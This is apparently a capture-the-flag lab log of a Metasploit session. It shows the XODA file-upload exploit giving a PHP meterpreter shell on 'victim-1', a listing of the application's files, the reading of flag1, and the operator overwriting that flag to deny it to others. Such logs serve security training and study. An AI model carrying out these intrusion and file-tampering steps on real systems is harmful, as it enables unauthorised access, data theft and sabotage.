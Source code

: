 ```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -n xoda -i 4
[*] Session 4 named to xoda
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4   xoda  meterpreter php/linux  www-data (33) @ victim-1  192.119.191.2:4444 -> 192.119.191.3:52328 (192.119.191.3)
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions 4
[*] Starting interaction with xoda...

meterpreter > ls
No entries exist in /app/files
meterpreter > pwd
/app/files
meterpreter > cd ..
meterpreter > ls
Listing: /app
=============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   4096   dir   2016-02-15 10:35:00 +0000  .git
40755/rwxr-xr-x   4096   dir   2023-02-09 03:01:40 +0000  .xoda
100777/rwxrwxrwx  10273  fil   2016-02-15 10:35:00 +0000  LICENSE
100777/rwxrwxrwx  8703   fil   2018-10-05 18:41:42 +0000  README
100777/rwxrwxrwx  79     fil   2016-02-15 10:35:00 +0000  README.md
40777/rwxrwxrwx   4096   dir   2018-10-06 06:33:10 +0000  Secret Files
100777/rwxrwxrwx  1284   fil   2018-10-05 18:41:42 +0000  config.php
40777/rwxrwxrwx   4096   dir   2023-02-09 03:35:23 +0000  files
100777/rwxrwxrwx  33     fil   2018-10-06 05:13:55 +0000  flag1
100777/rwxrwxrwx  208    fil   2018-10-06 05:19:22 +0000  flag5.zip
100777/rwxrwxrwx  40563  fil   2018-10-05 18:41:42 +0000  functions.php
100777/rwxrwxrwx  57739  fil   2018-10-05 18:41:42 +0000  index.php
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  js
100777/rwxrwxrwx  14598  fil   2016-02-15 10:35:00 +0000  logo.png
100777/rwxrwxrwx  5265   fil   2018-10-05 18:41:42 +0000  mobile.css
100777/rwxrwxrwx  19     fil   2016-02-15 10:35:00 +0000  phpinfo.php
100777/rwxrwxrwx  5758   fil   2018-10-05 18:41:42 +0000  style.css
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  xd_icons
100777/rwxrwxrwx  18850  fil   2018-10-05 18:41:42 +0000  zipstream.php
```

```
meterpreter > cat flag1
5c50a439f040922188a22f88cecc5277
meterpreter > edit flag1
meterpreter > cat flag1
You can't get the flag1 any more, lol.
```
